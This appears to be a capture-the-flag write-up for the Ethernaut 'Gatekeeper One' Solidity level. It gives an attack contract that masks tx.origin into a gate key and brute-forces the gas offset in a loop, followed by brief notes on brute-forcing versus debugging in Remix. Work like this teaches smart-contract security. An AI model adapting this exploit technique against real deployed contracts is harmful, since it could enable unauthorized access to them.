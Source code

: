 ```javascript
pragma solidity ^0.6.0;

contract GatekeeperOneAttack {
    function attack(address addr) public {
        bytes8 gate_key = bytes8(uint64(uint160(tx.origin))) & 0xFFFFFFFF0000FFFF;
        uint base_gas = 100000;
        bool success;
        for (uint i = 0; i < 8191; i++) {
          (success, ) = addr.call{ gas:base_gas+i }(abi.encodeWithSignature("enter(bytes8)", gate_key));
          if (success) {
            break;
          } 
        }
        require(success);
    }
}
```

This gas cost for this is quite expensive. Ideally, you would want to do this locally, but my setup is not working.

Method 1 (used here): Bruteforce the `gasleft()` value.

Method 2 (attempted): Go to Remix and use the debugger for the transaction, then see what's the remaining gas when the opcode gas is called. Finally, reverse engineer the initial gas amount to put into the call.
